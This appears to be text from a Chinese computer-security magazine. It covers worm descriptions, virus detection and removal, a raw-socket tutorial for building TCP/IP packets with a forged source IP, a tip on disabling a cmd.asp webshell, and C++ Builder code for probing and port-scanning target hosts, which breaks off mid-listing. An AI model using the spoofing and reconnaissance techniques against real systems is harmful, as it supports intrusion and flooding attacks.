该病毒是用 Borland Delphi 编写，本来文件大小在 216 KB，但该病毒把文件经过压缩后能够伪装成数以千计的文件、文件大小不一，因此用户很难分辨出哪些文件是真正的无毒文件，哪些是携带病毒的文件。此外，该病毒除了占用一定的空间外，不会对用户造成大的伤害。

```text
病毒发作：
KAZAA 病毒在运行时，会显示一个伪装过的错误信息：

ERROR
ACCESS ERROR #03A:94574: INVALID POINTER OPERATION
FILE POSSIBLY CORRUPTED.
[ OK ]

接着病毒本身会复制到以下位置：
%WINDIR%\SYSTEM AS EXPLORER.SCR

接着会在系统注册表中建立以下两个键值：
[HKEY_LOCAL_MACHINE\SOFTWARE\MICROSOFT\WINDOWS\CURRENTVERSION\RUN]
"SYSTEM-SERVICE"="C:\WINDOWS\SYSTEM\EXPLORER.SCR"
[HKEY_LOCAL_MACHINE\SOFTWARE\MICROSOFT]
"SYSCOD"="0065D7DB20008306B6A1"

从而使系统每次启动时病毒都会自动运行。

被感染系统上只有安装了 KAZAA 软件，病毒才能向外扩散。在被感染系统上建立的目录为 %WINDIR%\TEMP\SYS32，使用者能够从该目录下载。

该病毒会以许多用户可能搜索到的不同文件名将自身拷贝至此目录下。
```

### 病毒防治基本技术面面观

#### 一、引导型计算机病毒的识别和防范

通常计算机病毒的识别方法有以下几种：

- 1. 先用可疑磁盘引导计算机。引导过程中，按 F5 键跳过 CONFIG.SYS 和 AUTOEXEC.BAT 中的驱动程序和应用程序的加载。这时，用 MEM 或 MI 等工具查看计算机的空余内存空间（Free Memory Space）的大小；再用与可疑磁盘上相同版本的、未感染计算机病毒的 DOS 系统软盘启动计算机，启动过程中，按 F5 键跳过 CONFIG.SYS 和 AUTOEXEC.BAT 中的驱动程序和应用程序的加载，然后用 MEM 或 MI 等工具查看并记录下计算机空余内存空间的大小。如果上述两次的空余内存空间大小不一致，则可疑磁盘的引导扇区肯定已被引导型计算机病毒感染。
- 2. 用硬盘引导计算机。运行 DOS 中的 MEM，可以查看内存分配情况，尤其要注意常规内存（Conventional Memory）的总数，一般为 640KB 字节，装有硬件防杀计算机病毒芯片的计算机有的可能为 639KB 字节。如果常规内存总数小于 639KB 字节，那么引导扇区肯定被感染上引导型计算机病毒。
- 3. 机器在运行过程中刚设置好的时间、日期，运行一会儿被修改为缺省的时间、日期，这种情况下，系统很可能带有引导型计算机病毒。
- 4. 在开机过程中，CMOS 中刚设定好的软盘配置（即 1.44MB 或 1.2MB），用“干净的”软盘启动时一切正常，但用硬盘引导后，再去读软盘则无法读取。此时，CMOS 中软盘设定情况为 None，这种情况肯定带有引导型计算机病毒。
- 5. 硬盘自引导正常，但用“干净的”DOS 系统软盘引导时，无法访问硬盘，如 C: 盘（某些需要特殊的驱动程序的大硬盘和 FAT32、NTFS 等特殊分区除外），肯定感染上引导型计算机病毒。
- 6. 系统文件都正常，但 Windows 95/98 经常无法启动，这有可能是感染上了引导型计算机病毒。

上述介绍的仅是常见的几种情况。计算机被感染了引导型计算机病毒，最好用防杀计算机病毒软件加以清除，或者在“干净的”系统启动软盘引导下，用备份的引导扇区覆盖。

预防引导型计算机病毒，通常采用以下一些办法：

- 1. 坚持从不带计算机病毒的硬盘引导系统。
- 2. 安装能够实时监控引导扇区的防杀计算机病毒软件，或经常用能够查杀引导型计算机病毒的防杀计算机病毒软件进行检查。
- 3. 经常备份系统引导扇区。
- 4. 某些主板上提供引导扇区对计算机病毒保护功能（Virus Protect），启用它对系统引导扇区也有一定的保护作用。不过要注意的是，启用这功能可能会造成一些需要改写引导扇区的软件（如 Windows 95/98、Windows NT 以及多系统启动软件等）安装失败。

#### 二、文件型计算机病毒的识别和防范

通过以下方法可以判别文件型计算机病毒：

- 1. 在用未感染计算机病毒的 DOS 启动软盘引导后，对同一目录列目录（DIR）后文件的总长度与通过硬盘启动后所列目录内文件总长度不一样，则该目录下的某些文件已被计算机病毒感染，因为在带毒环境下，文件的长度往往是不真实的。
- 2. 有些文件型计算机病毒（如 ONEHALF、NATAS、3783、FLIP 等），在感染文件的同时也感染系统的引导扇区，如果磁盘的引导扇区被莫名其妙地破坏了，则磁盘上也有可能有文件型计算机病毒。
- 3. 系统文件长度发生变化，则这些系统文件上很有可能含有计算机病毒代码。应记住一些常见的 DOS 系统的 IO.SYS、MSDOS.SYS、COMMAND.COM、KRNL386.EXE 等系统文件的长度。
- 4. 计算机在运行过外来软件后，经常死机，或者 Windows 95/98 无法正常启动，运行经常出错等等，都有可能是感染上了文件型计算机病毒。
- 5. 计算机速度明显变慢，曾经正常运行的软件报内存不足，或计算机无法正常打印，这些现象都有可能感染上文件型计算机病毒。
- 6. 有些带毒环境下，文件的长度和正常的完全一样。但是从带有写保护的软盘拷贝文件时，会提示软盘带有写保护，这肯定是感染了计算机病毒。

对普通的单机和网络用户来说，感染文件型计算机病毒后，最好的办法就是用防杀计算机病毒软件清除，或者干脆删除带毒的应用程序，然后重新安装。需要注意的是，用防杀计算机病毒软件清除计算机病毒的时候，必须保证内存中没有驻留计算机病毒。否则老的计算机病毒是清除了，又感染上新的病毒。

对于文件型计算机病毒的防范，一般采用以下一些方法：

- 1. 安装最新版本的、有实时监控文件系统功能的防杀计算机病毒软件；及时更新查杀计算机病毒引擎。一般要保证每月至少更新一次；有条件的可以每周更新一次，并在有计算机病毒突发事件的时候及时更新；经常使用防杀计算机病毒软件对系统进行计算机病毒检查；对关键文件，如系统文件、保密的数据等等，在没有计算机病毒的环境下经常备份。
- 2. 在不影响系统正常工作的情况下，对系统文件设置最低的访问权限，以防止计算机病毒的侵害。当使用 Windows 95/98/2000/NT 操作系统时，修改文件夹窗口中的缺省属性。具体操作为：鼠标左键双击打开“我的电脑”，选择“查看”菜单中的“选项”命令。然后在“查看”中选择“显示所有文件”以及不选中“隐藏已知文件类型的文件扩展名”，按“确定”按钮。

#### 三、宏病毒的识别和防范

通过以下方法可以判别宏病毒：

- 1. 在使用的 Word 中从“工具”栏处打开“宏”菜单，选中 Normal.dot 模板，若发现有 AutoOpen、AutoNew、AutoClose 等自动宏以及 FileSave、FileSaveAs、FileExit 等文件操作宏或一些怪名字的宏，如 AAAZAO、PayLoad 等，就极可能是感染了宏病毒了，因为 Normal 模板中是不包含这些宏的。
- 2. 在使用的 Word“工具”菜单中看不到“宏”这个字，或者看到“宏”但光标移到“宏”，鼠标点击无反应，这种情况肯定有宏病毒。
- 3. 打开一个文档，不进行任何操作，退出 Word，如提示存盘，这极可能是 Word 中的 Normal.dot 模板中带宏病毒。
- 4. 打开以 DOC 为后缀的文档文件，在“另存”菜单中只能以模板方式存盘，也可能带有 Word 宏病毒。
- 5. 在运行 Word 过程中经常出现内存不足、打印不正常，也可能有宏病毒。
- 6. 在运行 Word 97 时，打开 DOC 文档出现是否启动“宏”的提示，该文档极可能带有宏病毒。

感染了宏病毒后，也可以采取对付文件型计算机病毒的方法，用防杀计算机病毒软件查杀。如果手头一时没有防杀计算机病毒软件的话，对付某些感染 Word 文档的宏病毒也可以通过手工操作的方法查杀。

下面以 Word 97 为例，简单介绍一下如何进行手工查杀：

- 1. 首先，必须保证 Word 97 本身是没有感染宏病毒的，也就是 Word 97 安装目录下 Startup 目录下的文件和 Normal.dot 文件没有被宏病毒感染。然后只打开 Word 97，而不是直接双击文档，选择“工具”菜单中的“选项”命令。再在“常规”中选中“宏病毒防护”，在“保存”中不选中“快速保存”，按确定按钮。打开文档，此时系统应该提示是否启用“宏”，选“否”，不启用宏而直接打开文档。再选择“工具”菜单的“宏”子菜单的“宏”命令，将可疑的宏全部删除。然后将文档保存。宏病毒被清除。

有些宏可能会屏蔽掉“宏”菜单，使得上述方法无法实施，这个时候可以试试下面这种方法：

首先保证 Word 97 不受宏病毒的感染，只打开 Word 97 并新建一个空文档，然后在“工具”菜单中选择“选项”命令，在“常规”中选中“宏病毒防护”，在“保存”中选择“提示保存 Normal 模板”，按确定按钮。

接着再启动一个 Word 97 应用程序，然后用新启动的这个 Word 97 打开感染宏病毒的文档，应当也会出现是否启用宏的提示，选“否”；然后选择“编辑”菜单中的“全选”命令；然后再选择“编辑”菜单中的“复制”命令；再切换到先前的 Word 97 中，选择“编辑”菜单中的“粘贴”命令，可以发现原来的文档被粘贴到先前 Word 97 新建的文档里。切换回打开带宏病毒文档的 Word 97 中，选择“文件”菜单中的“退出”命令，退出 Word 97，如果提示说是否保存 Normal.dot 模板，则选“否”。

再切换回先打开的 Word 97 中，选择“文件”菜单中的“保存”命令，将文件保存。由于宏病毒不会随剪贴板功能而被复制，所以这种办法也能起到杀灭宏病毒的效果。

对宏病毒的预防是完全可以做到的，只要在使用 Office 套装软件之前进行一些正确的设置，就基本上能够防止宏病毒的侵害。任何设置都必须在确保软件未被宏病毒感染的情况下进行：

- 1. 在 Word 中打开“选项”中的“宏病毒防护”（Word 97 及以上版本才提供此功能）和“提示保存 Normal 模板”；清理“工具”菜单中“模板和加载项”中的“共用模板及加载项”中预先加载的文件，不必要的就不加载，必须加载的则要确保没有宏病毒的存在，并且确认没有选中“自动更新样式”选项；退出 Word，此时会提示保存 Normal.dot 模板，按“是”按钮，保存并退出 Word；找到 Normal.dot 文件，将文件属性改成“只读”。
- 2. 在 Excel 中选择“工具”菜单中的“选项”命令，在“常规”中选中“宏病毒防护功能”。
- 3. 在 PowerPoint 中选择“工具”菜单中的“选项”命令，在“常规”中选中“宏病毒防护”。
- 4. 其他防范文件型计算机病毒所做的工作。做了防护工作后，对打开时提示是否启用宏，除非能够完全确信文档中只包含明确没有破坏意图的宏，否则都不执行宏；而对退出时提示保存除文档以外的文件，如 Normal.dot 模板等，一律不予保存。

防范邮件炸弹要注意以下 3 点：

- 1. 不要在网上得罪人，否则，对方知道你的信箱地址，很可能会因此而炸你一下。另外，也不要在网上到处乱贴你的网页地址或直接向陌生人发送有可能被对方认为是垃圾邮件之类的东西，因为这样很可能引起别人的反感，甚至招致对方的炸弹。
- 2. 有些邮件服务器为了提高服务质量，往往设置自动回信功能，即对方给你的信箱发来一封信，你没有及时收取的时候，那么邮件系统会按照你事先的设定自动给发信人回复一封确认收到的回函。这个功能本来可以给大家带来方便，有时也会造成炸弹。
- 3. 如果担心有人恶意破坏你的信箱，给你发来一个巨型炸弹，你可以设置过滤功能，把你的邮件服务器设置为超过你信箱容量的大邮件时自动进行删除，从而保证你的信箱安全。总之，只有注意防范电子邮件病毒和邮件炸弹，才能使你的计算机更加安全。

#### 四、计算机被病毒感染后的紧急修复处理

不要轻易打开陌生人来信中的附件文件。当收到陌生人寄来的一些自称为不可不看的有趣东西时，千万不要不假思索地打开它，尤其对于一些可执行程序文件。对于比较熟悉、了解的朋友们寄来的信，如果其信中夹带了程序附件，但是他没有在信中提到，也不要轻易运行，因为有些病毒是自己偷偷加上去的，很可能他也不知道电脑已经染上了病毒。例如，这类病毒就是这样的，它自动复制，跟着邮件走。

> 病毒追踪  W32/Enemany.b@MM

W32/Enemany.b@MM 蠕虫是用 Visual Basic 写成。当病毒被运行后，病毒会向 Microsoft Outlook 地址簿中发送如下特征邮件：

主题：Edonkey Update

邮件正文：

Hello Edonkey User,  
this is the Update tool, to fix our Edonkey Client to 35.16.51

附件：Esel_Update.Exe，如图所示：

当病毒被运行后，病毒将自己拷贝到 C:\WINDOWS 目录下，取名 Esel_Update.EXE；拷贝到 C:\WINDOWS\SYSTEM 目录下，取名 Edonkey.scr。

病毒修改注册表，在注册表：

HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices

下添加：

(Default)=C:\WINDOWS\Esel_Update.EXE

以便在系统启动时病毒也可以运行。



### 构造自己的数据包

#### 发送数据

继上期 SOCKET 编程的基本知识之后，本期推出应用篇。结合上期的知识，本文可以帮助大家扩展知识面，学到一个非常实用的技术——发送自己的数据包。

文／多多

我们在进行网络编程的时候，经常需要构造自己的数据包，实现一些特别的功能，比如伪造 IP、发送自己特定的信息等等，著名的 FLOOD 攻击就用到了这个技术，应用范围十分广泛。下面介绍的技术需要 Winsock2.2 函数库的支持，在 Windows 2000 中已经支持了。

下面我和大家一起从较简单的方面来讨论、学习这个技术，我们以常用的 TCP/IP 协议的数据包为例：

首先，我们先谈谈数据包的第一部分——IP 头。请看下面结构描述：

```c
typedef struct ip_hdr
{
    unsigned char ip_verlen;   // IP头的版本号，目前是IPv4，最新是IPv6；
    unsigned char ip_tos;      // 服务类型，定义了数据传输的优先级、延迟、吞吐量和可靠性等特性
    unsigned short ip_totallength;  // IP头的长度，若没有特殊选择，IP头总是20字节长
    unsigned short ip_id;      // IP包标识，主机使用它唯一确定每个发送的数据报
    unsigned short ip_offset;  // IP数据分割偏移
    unsigned char ip_ttl;      // 数据报在网络上的存活时间，每通过一个路由器，该数值减一
    unsigned char ip_protocol; // TCP/IP协议类型，比如：ICMP为1，IGMP为2，TCP为6，UDP为17等
    unsigned short ip_checksum; // 头部检验和
    unsigned int ip_srcaddr;   // 源IP地址
    unsigned int ip_destaddr;  // 目的IP地址
} ip_header;
```

在 IP 末尾还有一些选项和数据，这里没有写入结构中。这个结构不难看懂吧？大家接着往下看吧。

接下来我们再看看用 C 描述的 TCP 报文格式：

```c
typedef struct _tcphdr
{
    USHORT th_sport;   // 16位源端口
    USHORT th_dport;   // 16位目的端口
    unsigned int th_seq;   // 32位序列号
    unsigned int th_ack;   // 32位确认号
    unsigned char th_lenres; // 4位首部长度 + 6位保留字中的4位
    unsigned char th_flag;   // 2位保留字 + 6位标志位，2是SYN，1是FIN，16是ACK等等
    USHORT th_win;    // 16位窗口大小
    USHORT th_sum;    // 16位校验和
    USHORT th_urp;    // 16位紧急数据偏移量
} tcp_header;
```

好了，看完这两个结构，我们来看看如何填充这些结构中的数据吧，给出例子：

```c
ip_header.ip_verlen = (iIPVersion << 4) | 4; // 填充版本号
ip_header.ip_tos = 0;
ip_header.ip_totallength = htons(sizeof(ip_header)+sizeof(tcp_header)+sizeof(data));
// 为了在后面保护自己的数据包必须修改此 IP 头长度
ip_header.ip_id = 0;
ip_header.ip_offset = 0;
ip_header.ip_ttl = 128;
ip_header.ip_protocol = 6; // TCP 协议
ip_header.ip_checksum = 0; // 校验和应先置 0，后面再填充
ip_header.ip_srcaddr = inet_addr(SRC_IP); // 源 IP
ip_header.ip_destaddr = inet_addr(DES_IP); // 目的 IP

tcp_header.th_dport=htons(DES_PORT); // 目的端口号
tcp_header.th_sport=htons(SRC_PORT); // 源端口号
tcp_header.th_seq=htonl(0x12345678);
tcp_header.th_ack=0;
tcp_header.th_lenres=(sizeof(tcp_header)/4<<4|0);
tcp_header.th_flag=2; // 修改这里来实现不同的标志位探测，2 是 SYN，1 是 FIN，16 是 ACK 探测等等

tcp_header.th_win=htons(512);
tcp_header.th_urp=0;
tcp_header.th_sum=0; // 校验和应先置 0，后面再填充
```

现在，来谈谈这两个结构的校验和问题，这可是算法上的问题，有点难，大家可以直接拿来用。

IP 校验和的计算方法是：首先将 IP 首部的校验和字段设为 0（IP_HEADER.checksum=0），然后计算整个 IP 首部（包括选项）的二进制反码的和，一个标准的校验和函数如下：

```c
USHORT checksum(USHORT *buffer, int size)
{
    unsigned long cksum=0;
    while(size >1)
    {
        cksum+=*buffer++; // 把所有的数据相加
        size -=sizeof(USHORT);
    }
    if(size) cksum += *(UCHAR*)buffer;
    cksum = (cksum >> 16) + (cksum & 0xffff); // >>16 为右移 16 位（二进制），再把 cksum
    // 低 16 位（二进制）取出，相加
    cksum += (cksum >>16);
    return (USHORT)(~cksum); // 取反
}
```

TCP 首部检验和与 IP 首部校验和的计算方法相同，在程序中使用同一个函数来计算。

需要注意的是：由于 TCP 首部中不包含源地址与目标地址等信息，为了保证 TCP 校验的有效性，在进行 TCP 校验和的计算时，需要增加一个 TCP 伪首部的校验和。这只是为了校验和用的，实际并不存在，定义如下：

```c
struct
{
    unsigned long saddr; // 源地址
    unsigned long daddr; // 目的地址
    char mbz; // 置空
    char ptcl; // 协议类型
    unsigned short tcpl; // TCP 长度
} psd_header;
```

然后，我们把这两个字段复制到同一个缓冲区 buf 中并计算 TCP 校验和：

```c
memcpy(buf,&psd_header,sizeof(psd_header)); // 将伪 TCP 头拷贝到内存中
memcpy(buf+sizeof(psd_header),&tcp_header,sizeof(tcp_header)); // 将真正 TCP 头拷贝至伪 TCP 头末尾
tcp_header.th_sum=checksum((USHORT*)buf,sizeof(psd_header)+sizeof(tcp_header));
// 计算校验和
```

计算 IP 校验和的时候不需要包括 TCP 伪首部。

```c
memcpy(buf,&ip_header,sizeof(ip_header)); // 将 IP 头拷贝到内存中
memcpy(buf+sizeof(ip_header),&tcp_header,sizeof(tcp_header));
// 将 TCP 头拷贝至 IP 头末尾
ip_header.ip_checksum=checksum((USHORT*)buf, sizeof(ip_header)+sizeof(tcp_header)+sizeof(data)); // 计算校验和
```

最后将计算过校验和的 IP 首部与 TCP 首部复制到同一个缓冲区中；如果还有数据应该将数据一起拷贝到缓冲区中，然后就可以直接发送了：

```c
sendto(SockRaw,buf,datasize,0,(struct sockaddr*)&DestAddr,sizeof(DestAddr));
```

好了，基本过程我们已经了解，接下来整理一下思路：

- 1. 首先，创建一个套接字 `sock = socket(AF_INET, SOCK_RAW, IPPROTO_IP);`，用了 `SOCK_RAW` 这个参数，表示建立一个原始的套接字。
- 2. 对套接字设置选项值，使得能发送自己的数据包，使用函数 `setsockopt(sock, IPPROTO_IP, IP_HDRINCL, (char *)&blnFlag, sizeof(blnFlag));` 设定 `IP_HDRINCL` 选项，那么，就需要自己来构造 IP 头。
- 3. 填充自己的 IP 头和 TCP 头。在填充 IP 头的时候，`ip_header.ip_totallength` 的值应该设置为 IP 头长 + TCP 头长 + 数据长，例如：`ip_header.ip_totallength = htons(sizeof(ip_header)+sizeof(tcp_header)+sizeof(data));`，`htons()` 表示将主机的无符号短整形数转换成网络字节顺序。
- 4. 进行校验和计算。
- 5. 将数据包的头部分和数据拷贝到一个缓冲区。
- 6. 最后是进行发送：`sendto(SockRaw, buf, datasize, 0, (struct sockaddr*) &DestAddr, sizeof(DestAddr));`。

下面列出函数的具体使用：

```c
int PASCAL FAR sendto( SOCKET s, const char FAR* buf, int len, int flags,
    const struct sockaddr FAR* to, int tolen);
```

- `s`：一个标识套接字的描述字。
- `buf`：包含待发送数据的缓冲区。
- `len`：`buf` 缓冲区中数据的长度。
- `flags`：调用方式标志位。
- `to`：（可选）指针，指向目的套接口的地址。
- `tolen`：`to` 所指地址的长度。

关于自定义数据包的发送本来就有一定的难度，为了让读者便于理解，本文没有更深入的探讨，也没有给出详细的例程，只停留在表面的讲解，点到即止。还望读者自行深入。

（上接68页）

到了 `HKEY_CLASSES_ROOT\Scripting.FileSystemObject` 键值，更改成为你定义的字符串，比如：`HKEY_CLASSES_ROOT\Scripting.FileSystemObject520`

这样，不需要删除 `FileSystemObject` 对象，又不影响 asp 程序的运行，而用户如果再运行那个 `cmd.asp` 木马的话，就会因为调用不到 `Scripting.FileSystemObject` 组件而无法执行命令了，同时也没有什么出错信息。但是，对于有经验的入侵者来说，他就会知道这方面被网管做了防护。

如果网管需要那个 `cmd.asp` 来远程管理自己的站点怎么办？很简单，只要把 asp 代码中的：

```vb
Set oFileSys = Server.CreateObject("Scripting.FileSystemObject")
```

更改为：

```vb
Set oFileSys = Server.CreateObject("Scripting.FileSystemObject520")
```

就可以调用了。

这样，只有网管才知道正确的 `Scripting.FileSystemObject520`。同时我建议不要把这个对象的名字改得太简单，比如 `Scripting.FileSystemObject111` 什么的，建议在原对象名字后面加一些无规律的字母，这样对方就猜不到了。你自己也别担心忘了这个对象的名字，因为在注册表里可以看到它。

有关 asp 的漏洞利用就讲到这里，我相信以上这个入侵实例告诉了各位网管，也许你下了功夫补住了许多流行的漏洞，黑客在一段时间内也没办法入侵你的服务器，但是以后所开的服务依然可能潜伏着危险，有时甚至你自己正在无意间也会造成新的漏洞。系统安全是不断变化着的，所以网管也要时刻注意，多注意漏洞的发布，多关注一些著名的网络安全网站，这样就能在第一时间给自己的服务器打上补丁。

### 通过编程实现对目标主机的伸缩探测

文／劲风

对目标主机进行各方面的探测是每一个黑客在行动前所做的重点动作，只有清楚对方的底细，才能决定使用何种入侵策略。很多人通过用扫描器扫描来获得足够的信息，有没有试过自己写程序来完成呢？没有的话，本文能给你一点提示。

声明：本文没有高深的技术，只介绍比较笨的方法对主机进行简单的探测，适合菜鸟们看，高手可以一笑而去！

当目标确定之后，接下来的一步便是收集信息了，就是说要对目标主机的各个方面进行探测，以便获得足够的信息，为你的下一步工作做好铺垫。目前网络上许多现成的扫描器和系统自带的某些小软件都可以很容易地帮助你收集信息，而且做得很出色。现在我们通过编程来实现对远程主机进行简单的探测。下面我们要编写的程序将对一个给定 IP 地址（或主机域名）的主机进行探测，内容包括检测远程主机是否在网络上、向主机请求用户列表、获取特定用户的信息、探测主机开放了哪些服务（端口）以及各种服务软件的版本信息等等。好，我们现在就开始吧。

#### 一、工具的选择

由于编程语言各异，编程工具也五花八门，我们究竟用什么工具好呢？常见的工具有 VC、VB、Delphi 和 C++ Builder。笔者尤其钟爱后者，所以我决定用 C++ Builder 5.0 来写，本文所有的问题都是基于 C++ Builder 的。其实 VC 也很好，只是 GUI 设计有点复杂（不是有点，而是非常复杂），再说，C++ Builder 提供大量的 VCL 库足以满足我们大部分的要求，而且比起 VC 简单实用多了！如果你的编程基础不是很好，又想快速入门过一过编程瘾的话，C++ Builder 是你的最佳选择（某黑编：什么？你小子在吹广告！众编齐上，扁他！@#$%@&@^~~~~）。

#### 二、编程的预备工作

说是预备工作，其实已经开始了，只是这些工作还不是程序的核心，如创建窗口、设计程序界面、选择需要的控件等等，这些东西也要在这里简单交代一下，不然，下面的代码是基于控件的描述，可能弄得你糊里糊涂。

创建窗体：打开 C++ Builder 5，点击 File-New-New-Application-OK，这样就为程序创建了一个新的窗体。

选择控件：主要有三个控件，它们是 NMEcho 控件（判断主机是否在网络上）、ClientSocket 控件（用于探测主机所开的服务）、NMFinger 控件（获取用户信息）和 Memo 控件（用于显示探测结果）。

其他的如 Edit、GroupBox 等东东大家都很熟悉，不再多说。将这些控件组合一下，构成软件的界面，如图1所示。

图1

构造好界面后，我们便开始转入正题了，请继续往下看。

#### 三、程序核心部分

#### 1、检测远程主机是否在网络上

这是第一步工作，任意指定一个 IP 地址（或者域名），若该 IP 地址还没有被分配使用，那主机就不存在，再对它进行进一步探测无疑是浪费资源和时间。因此，我们首先要判断拥有该 IP 地址的主机是否连接在网络上，如果不在网上就应该停止探测活动。在 Windows 系统中，我们一般是用系统自带的控制台程序 ping.exe 来检测网络的连通性，在 C++ Builder 里，我们可以利用 NMEcho 这个控件来完成网络连通性的探测，这个控件封装了 echo 协议，通常不管是 UDP 还是 TCP 协议，echo 的默认端口都是 7。

方法：双击 NMEcho 控件，将其加入窗体中。由于我们所做的一切工作都是通过点击“探测”这个按钮来完成的，所以将 Button1 控件的 caption 属性设置成“探测”后，双击 Button1 控件，创建该控件的 OnClick 事件处理函数，代码如下：

```cpp
void __fastcall TForm1::Button1Click(TObject *Sender)
{
    // 设置 NMEcho1 控件的标准属性
    if(Edit2->Text=="")
        NMEcho1->Host=Edit1->Text;   // 主机 IP 地址，等待输入
    else
        NMEcho1->Host=Edit2->Text;   // 主机域名，等待输入
    NMEcho1->TimeOut=5000;   // 设置超时值
    NMEcho1->Port=7;         // 端口
    NMEcho1->ReportLevel=Status_Basic;
    NMEcho1->Connect();      // 与目标建立连接
    Memo1->Clear();
    for(int i=0;i<Memo1->Lines->Count;i++)
        Memo1->Text = Memo1->Text+NMEcho1->Echo
        (Memo1->Lines->Strings[i]);
    NMEcho1->Disconnect();   // 断开连接
}
```

接下来便要创建 NMEcho1 控件的一些事件处理函数，如 Connect（连接成功）、ConnectionFailed（连接失败）等事件的处理，起到提示作用。代码如下：

```cpp
void __fastcall TForm1::NMEcho1ConnectionFailed(TObject *Sender)
{
    ShowMessage("连接失败！"); // 当连接失败时，说明主机不连接在网络上，弹出提示对话框，并退出。
    exit(0);
}

void __fastcall TForm1::NMEcho1Disconnect(TObject *Sender)
{
    StatusBar1->Panels->Items[0]->Text="断开连接！";
}

void __fastcall TForm1::NMEcho1HostResolved(TComponent *Sender)
{
    StatusBar1->Panels->Items[0]->Text="未确定主机！";
}

void __fastcall TForm1::NMEcho1InvalidHost(bool &Handled)
{
    // 处理当用户没有填入 IP 地址（或者域名）就按了“探测”按钮，让其重新输入。
    AnsiString TmpStr;
    if(InputQuery("未填入主机！","请填入主机：", TmpStr))
    {
        NMEcho1->Host=TmpStr; // 将重新输入的主机名赋给 NMEcho 控件的 Host 属性。
        Handled=true; // 试图重新与目标主机建立连接。
    }
}
```

此时，如果主机不在网络上，程序就提示“连接失败”，并停止运行，如图2所示。

#### 2、检测远程主机上开放了哪些服务

检查主机上开放的服务很重要，因为每一种服务对应着一个打开的端口，这样才能通过服务软件的支持对外提供服务，而很多服务的软件都存在着漏洞，精通漏洞利用方法的高手们只要了解服务软件的版本信息就知道该用什么方法来入侵了，现在我们的任务就是探测主机开了哪些服务，并且获得该服务软件的版本信息，“知己”还要“知”“彼”，心中有数方能对症下药。

要探测远程主机是否提供某项服务，我们就要清楚提供该项服务的端口是什么，如提供 FTP 服务的主机一般打开 21 号端口，提供 WWW 服务就打开 80 端口等等，在编程的时候一般测试服务相应的端口是否打开就行了。这里我只探测几个常用的服务（实际上你可以依葫芦画瓢地探测更多的服务，在程序里多加几行代码就可以了），这些服务以及端口是：

| 服务名称 | 端口 |
|---|---:|
| FTP | 21 |
| Telnet | 23 |
| WWW | 80 |
| UPnP | 5000 |
| POP3 | 110 |
| SMTP | 25 |

方法：在组件栏里找到 ClientSocket 控件并双击，将其加入到窗体中去；双击“探测”按钮（Button1），接着键入以下代码：

```cpp
//======== 测试主机提供的服务 ========
if(Edit2->Text=="")
    ClientSocket1->Address=Edit1->Text; // 设置 IP 地址
else
    ClientSocket1->Host=Edit2->Text; // 没输入 IP 地址的话，就取域名
//-------- 探测 FTP 服务 --------
if(RadioButton1->Checked)
{
    if(ClientSocket1->Active)
        ClientSocket1->Close();
    ClientSocket1->Port=21; // FTP 服务端口，实际上我们就是探测目标主机是否打开 21 号端口。
    ClientSocket1->Open();
}
```

```cpp
}
//-------- 探测 TELNET 服务 --------
if(RadioButton2->Checked)
{
    if(ClientSocket1->Active)
        ClientSocket1->Close();
    ClientSocket1->Port=23;
    ClientSocket1->Open();
}
//-------- 探测 WWW 服务 --------
if(RadioButton3->Checked)
{
    if(ClientSocket1->Active)
        ClientSocket1->Close();
    ClientSocket1->Port=80;
    ClientSocket1->Open();
}
//-------- 探测 UPnP 服务 --------
if(RadioButton4->Checked)
{
    if(ClientSocket1->Active)
        ClientSocket1->Close();
    ClientSocket1->Port=5000;
    ClientSocket1->Open();
}
//-------- 探测 POP3 服务 --------
if(RadioButton5->Checked)
{
    if(ClientSocket1->Active)
        ClientSocket1->Close();
    ClientSocket1->Port=110;
    ClientSocket1->Open();
}
//-------- 探测 SMTP 服务 --------
if(RadioButton6->Checked)
{
    if(ClientSocket1->Active)
        ClientSocket1->Close();
    ClientSocket1->Port=25;
    ClientSocket1->Open();
}
//======== 服务探测到此告一段落 ========
// 我只列举了 6 种常见的服务，实际上你可以依葫芦画瓢，探测所有的服务！
```

写到此，是否该让它牛刀小试一下？别急！不要忘了我们现在使用的是控件，程序运行时触发的事件和抛出的异常都等待着我们去处理，比如，当连接成功时，就会触发 OnConnect 事件，意味着远程主机提供某项服务；当连接失败时，就会抛出“和服务器建立连接失败”的异常，意味着远程主机不提供该项服务。编程的时候，我们要将这些信息表示出来，就要建立事件处理函数和异常捕捉处理，相关代码如下：

```cpp
void __fastcall TForm1::ClientSocket1Connect(TObject *Sender,
    TCustomWinSocket *Socket)
{
